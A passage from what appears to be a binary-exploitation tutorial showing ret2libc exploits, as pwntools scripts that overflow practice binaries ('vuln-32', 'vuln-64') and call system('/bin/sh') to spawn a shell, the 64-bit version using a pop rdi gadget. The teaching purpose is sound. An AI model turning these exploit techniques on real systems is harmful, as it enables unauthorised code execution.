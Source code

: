 ```
```
 Automated with PwnTools
```
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```
## 64-bit Exploit
Instead of passing the parameters in after the `return` pointer, we'll have to use a `pop rdi; ret` gadget to put it into `RDI`:
```
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
```
Code:
```
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```
